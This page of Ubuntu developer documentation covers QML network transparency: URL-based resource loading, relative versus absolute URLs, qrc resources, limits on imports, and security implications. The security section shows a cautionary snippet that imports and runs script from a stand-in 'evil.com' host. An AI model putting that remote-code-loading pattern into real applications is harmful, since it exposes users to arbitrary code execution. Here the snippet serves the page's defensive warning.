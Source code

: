 <a href="https://developer.ubuntu.com/" class="logo-ubuntu"><img src="https://developer.ubuntu.com/assets/sites/ubuntu/latest/u/img/logos/logo-ubuntu-orange.svg" width="106" height="25" /> <span>developer</span></a>

-   [Jump to content](index.html#main-content)
-   [Desktop](https://developer.ubuntu.com/en/desktop/)
-   [Phone](https://developer.ubuntu.com/en/phone/)
-   [Core](https://developer.ubuntu.com/core)
-   [Community](https://developer.ubuntu.com/en/community/)
-   [Publish](https://developer.ubuntu.com/en/publish/)
-   [My Apps](https://myapps.developer.ubuntu.com/)

Search

<img src="https://developer.ubuntu.com/assets/sites/ubuntu/latest/u/img/search-white.svg" alt="Search" height="28" />

-   [APIs](../../../../index.html) ›
-   [Apps](../../../index.html) ›
-   [QML](../../index.html) ›
-   <a href="../index.html" class="sub-nav-item">SDK 15.04</a> ›
-   <a href="../QtQml/index.html" class="sub-nav-item">QtQml</a> ›

<!-- -->

-   Resource Loading and Network Transparency

Resource Loading and Network Transparency
=========================================

<span class="subtitle"></span>
<span id="details"></span>
QML supports network transparency by using URLs (rather than file names) for all references from a QML document to other content. This means that anywhere a URL source is expected, QML can handle remote resources as well as local ones, for example in the following image source:

``` qml
Image {
    source: "http://www.example.com/images/logo.png"
}
```

Since a *relative* URL is the same as a relative file, development of QML on regular file systems remains simple:

``` qml
Image {
    source: "images/logo.png"
}
```

Network transparency is supported throughout QML, for example:

-   Fonts - the `source` property of FontLoader is a URL
-   WebViews - the `url` property of WebView (obviously!)

Even QML types themselves can be on the network - if the Prototyping with qmlscene is used to load `http://example.com/mystuff/Hello.qml` and that content refers to a type "World", the engine will load `http://example.com/mystuff/qmldir` and resolve the type just as it would for a local file. For example if the qmldir file contains the line "World World.qml", it will load `http://example.com/mystuff/World.qml` Any other resources that `Hello.qml` referred to, usually by a relative URL, would similarly be loaded from the network.

<span id="relative-vs-absolute-urls"></span>
Relative vs. Absolute URLs
--------------------------

Whenever an object has a property of type URL (QUrl), assigning a string to that property will actually assign an absolute URL - by resolving the string against the URL of the document where the string is used.

For example, consider this content in `http://example.com/mystuff/test.qml`:

``` qml
Image {
    source: "images/logo.png"
}
```

The Image source property will be assigned `http://example.com/mystuff/images/logo.png`, but while the QML is being developed, in say `C:\User\Fred\Documents\MyStuff\test.qml`, it will be assigned `C:\User\Fred\Documents\MyStuff\images\logo.png`.

If the string assigned to a URL is already an absolute URL, then "resolving" does not change it and the URL is assigned directly.

<span id="qrc-resources"></span>
QRC Resources
-------------

One of the URL schemes built into Qt is the "qrc" scheme. This allows content to be compiled into the executable using The Qt Resource System. Using this, an executable can reference QML content that is compiled into the executable:

``` cpp
    QQuickView *view = new QQuickView;
    view->setUrl(QUrl("qrc:/dial.qml"));
```

The content itself can then use relative URLs, and so be transparently unaware that the content is compiled into the executable.

<span id="limitations"></span>
Limitations
-----------

The `import` statement is only network transparent if it has an "as" clause.

More specifically:

-   `import "dir"` only works on local file systems
-   `import libraryUri` only works on local file systems
-   `import "dir" as D` works network transparently
-   `import libraryUrl as U` works network transparently

<span id="implications-for-application-security"></span>
Implications for Application Security
-------------------------------------

The QML security model is that QML content is a chain of trusted content: the user installs QML content that they trust in the same way as they install native Qt applications, or programs written with runtimes such as Python and Perl. That trust is establish by any of a number of mechanisms, including the availability of package signing on some platforms.

In order to preserve the trust of users, QML application developers should not load and execute arbitrary JavaScript or QML resources. For example, consider the QML code below:

``` qml
import QtQuick 2.0
import "http://evil.com/evil.js" as Evil
Component {
    onLoaded: Evil.doEvil()
}
```

This is equivalent to downloading and executing "http://evil.com/evil.exe". **The QML engine will not prevent particular resources from being loaded**. Unlike JavaScript code that is run within a web browser, a QML application can load remote or local filesystem resources in the same way as any other native applications, so application developers must be careful in loading and executing any content.

As with any application accessing other content beyond its control, a QML application should perform appropriate checks on any untrusted data it loads. **Do not, for example, use `import`, Loader or [XMLHttpRequest](../QtQml.qtqml-javascript-qmlglobalobject/index.html#xmlhttprequest) to load any untrusted code or content.**

[Back to top](index.html#)

-   [Desktop](https://developer.ubuntu.com/en/desktop/)
    ---------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/desktop/)
    -   [Get started](http://snapcraft.io/?utm_source=developer.ubuntu.com&utm_medium=devportal&utm_term=snaps%20snapcraft%20desktop&utm_content=menu&utm_campaign=duc_snappers)
    -   [Examples](https://github.com/ubuntu/snappy-playpen)

-   [Phone](https://developer.ubuntu.com/en/phone/)
    -----------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/phone/)
    -   [Scopes](https://developer.ubuntu.com/en/phone/scopes/)
    -   [Apps](https://developer.ubuntu.com/en/phone/apps/)
    -   [Web Apps](https://developer.ubuntu.com/en/phone/web/)
    -   [Platform](https://developer.ubuntu.com/en/phone/platform/)
    -   [Devices](https://developer.ubuntu.com/en/phone/devices/)

-   [Core](https://developer.ubuntu.com/core)
    -----------------------------------------

    -   [Overview](https://developer.ubuntu.com/core)
    -   [Get started](https://developer.ubuntu.com/core/get-started)
    -   [Tutorials](https://developer.ubuntu.com/core/tutorials)
    -   [Examples](https://developer.ubuntu.com/core/examples)
    -   [Publish and distribute](https://developer.ubuntu.com/core/publish-and-distribute)
    -   [Documentation](https://developer.ubuntu.com/core/documentation)
    -   [Troubleshooting](https://developer.ubuntu.com/core/troubleshooting)

-   [Community](https://developer.ubuntu.com/en/community/)
    -------------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/community/)
    -   [App development training](https://developer.ubuntu.com/en/community/training/)
    -   [Core apps](https://developer.ubuntu.com/en/community/core-apps/)
    -   [Blog](https://developer.ubuntu.com/en/community/blog/)

-   [Publish](https://developer.ubuntu.com/en/publish/)
    ---------------------------------------------------

    -   [Overview](https://developer.ubuntu.com/en/publish/)
    -   [Application states](https://developer.ubuntu.com/en/publish/application-states/)
    -   [Packaging click apps](https://developer.ubuntu.com/en/publish/packaging-click-apps/)
    -   [Creating a good icon](https://developer.ubuntu.com/en/publish/creating-a-good-icon/)
    -   [Web](https://developer.ubuntu.com/en/publish/web/)
    -   [Security policy groups](https://developer.ubuntu.com/en/publish/security-policy-groups/)
    -   [Choosing a license](https://developer.ubuntu.com/en/publish/choosing-a-license/)
    -   [Other forms of submitting apps](https://developer.ubuntu.com/en/publish/other-forms-of-submitting-apps/)
    -   [Scopes](https://developer.ubuntu.com/en/publish/scopes/)

-   View in:
    --------

    -   [English](index.html "Change to language: English")
    -   [Simplified Chinese](index.html "Change to language: Simplified Chinese")

-   [Download](http://ubuntu.com/download/)
    ---------------------------------------

    -   [Overview](http://ubuntu.com/download)
    -   [Cloud](http://ubuntu.com/download/cloud)
    -   [Server](http://ubuntu.com/download/server)
    -   [Desktop](http://ubuntu.com/download/desktop)
    -   [Ubuntu Kylin](http://ubuntu.com/download/ubuntu-kylin)
    -   [Alternative downloads](http://ubuntu.com/download/alternative-downloads)

-   [Support](http://ubuntu.com/support/)
    -------------------------------------

    -   [Overview](http://ubuntu.com/support)
    -   [Security notices](http://www.ubuntu.com/usn/)

-   [About](http://ubuntu.com/about/)
    ---------------------------------

    -   [About Ubuntu](http://ubuntu.com/about/about-ubuntu)
    -   [Careers](http://www.canonical.com/careers)
    -   [Canonical and Ubuntu](http://ubuntu.com/about/canonical-and-ubuntu)
    -   [Contact us](http://ubuntu.com/about/contact-us)
    -   [Canonical news feed](http://insights.ubuntu.com/feed/)

© 2015 Canonical Ltd. Ubuntu and Canonical are registered trademarks of Canonical Ltd.

-   [Legal information](http://www.ubuntu.com/legal)
-   [Report a bug on this site](https://bugs.launchpad.net/developer-ubuntu-com/)

<span class="accessibility-aid">[Go to the top of the page](index.html#)</span>
